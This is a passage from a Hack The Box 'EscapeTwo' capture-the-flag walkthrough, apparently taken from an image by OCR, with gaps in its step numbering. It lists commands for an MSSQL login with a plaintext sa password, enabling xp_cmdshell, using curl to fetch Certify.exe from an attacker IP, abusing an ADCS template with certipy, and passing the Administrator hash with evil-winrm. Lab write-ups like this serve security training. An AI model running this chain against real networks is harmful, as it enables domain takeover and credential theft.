 RUN on SERVER: impacket-mssqlclient
escapetwo.htb/sa:MSSQLP\\@ssw0rd\\!\\@10.10.11.51

RUN on SERVER: enable_xp_cmdshell

RUN LOGGEDIN on POWERSHELL, on SERVER: mkdir C:\\temp

RUN on SERVER: xp_cmdshell curl 10.10.14.184/Certify.exe -o
C:\\Users\\public\\Certify.exe (Uploads Certify.exe to SERVER)

RUN LOGGEDIN on POWERSHELL, on SERVER: C:\\temp\> ./Certify.exe find
/domain:sequel.htb

10\. 2nd INFO: Change directory

RUN: cd C:\\temp

12\. INFO: Run Certify.exe. You can see that ca_svc has overridable
permissions for this certificate 👆, so let\'s overwrite it. (IN NEXT
STEP)

RUN: .\\Certify.exe find /domain:sequel.htb

13\. INFO: Override it

RUN on Kali VM: KRB5CCNAME=\$PWD/ca_svc.ccache certipy-ad template -k
-template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target
dc01.sequel.htb

14\. INFO: CERTIPY. Using ca_svc the user\'s credential hash, a Kerberos
request is made to obtain an authentication ticket to the target system.

IMPORTANT: Paste HASH 3b181b914e7a9d5508ea1e20bc2b7fce from STEP 9

15\. INFO: Get the Administrator\'s hash through the certificate

RUN on Kali VM: certipy-ad auth -pfx administrator_10.pfx -domain
sequel.htb

15.2 INFO: POWERSHELL login as ADMINISTRATOR and get USER.TXT

IMPORTANT: Paste HASH you got in STEP 15

RUN on KALI: evil-winrm -i 10.10.11.51 -u \"administrator\" -H
\"7a8d4e04986afa8ed4060f75e5a0b3ff\"

RUN on SERVER: cd ../Desktop

RUN on SERVER: type root.txt
